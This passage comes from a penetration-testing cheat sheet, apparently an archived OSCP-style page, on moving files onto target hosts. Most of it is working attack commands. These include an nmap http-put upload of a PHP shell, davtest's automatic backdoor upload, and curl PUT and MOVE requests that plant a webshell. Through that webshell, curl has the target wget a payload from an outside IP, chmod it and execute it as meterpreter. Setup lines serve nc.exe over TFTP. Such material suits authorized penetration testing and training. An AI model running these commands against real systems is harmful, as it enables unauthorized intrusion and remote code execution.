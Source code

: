 *   Mounting File Shares

    *   Mount NFS share to /mnt/nfs  
        mount $ip:/vol/share /mnt/nfs
*   HTTP Put  
    nmap -p80 $ip --script http-put --script-args http-put.url='/test/sicpwn.php',http-put.file='/var/www/html/sicpwn.php

*   ## [](#uploading-files)Uploading Files

    *   SCP

        scp username1@source_host:directory1/filename1 username2@destination_host:directory2/filename2

        scp localfile username@$ip:~/Folder/

        scp Linux_Exploit_Suggester.pl bob@192.168.1.10:~

    *   Webdav with Davtest- Some sysadmins are kind enough to enable the PUT method - This tool will auto upload a backdoor

        `davtest -move -sendbd auto -url http://$ip`

        [https://github.com/cldrn/davtest](http://web.archive.org/web/20171113221652/https://github.com/cldrn/davtest)

        You can also upload a file using the PUT method with the curl command:

        `curl -T 'leetshellz.txt' 'http://$ip'`

        And rename it to an executable file using the MOVE method with the curl command:

        `curl -X MOVE --header 'Destination:http://$ip/leetshellz.php' 'http://$ip/leetshellz.txt'`

    *   Upload shell using limited php shell cmd  
        use the webshell to download and execute the meterpreter  
        [curl -s --data "cmd=wget [http://174.0.42.42:8000/dhn](http://web.archive.org/web/20171113221652/http://174.0.42.42:8000/dhn) -O /tmp/evil" http://$ip/files/sh.php  
        [curl -s --data "cmd=chmod 777 /tmp/evil" http://$ip/files/sh.php  
        curl -s --data "cmd=bash -c /tmp/evil" http://$ip/files/sh.php

    *   TFTP  
        mkdir /tftp  
        atftpd --daemon --port 69 /tftp  
        cp /usr/share/windows-binaries/nc.exe /tftp/  
        EX. FROM WINDOWS HOST:  
        C:\Users\Offsec>tftp -i $ip get nc.exe

    *   FTP  
        apt-get update && apt-get install pure-ftpd

        #!/bin/bash  
        groupadd ftpgroup  
        useradd -g ftpgroup -d /dev/null -s /etc ftpuser  
        pure-pw useradd offsec -u ftpuser -d /ftphome  
        pure-pw mkdb  
        cd /etc/pure-ftpd/auth/  
        ln -s ../conf/PureDB 60pdb  
        mkdir -p /ftphome  
        chown -R ftpuser:ftpgroup /ftphome/
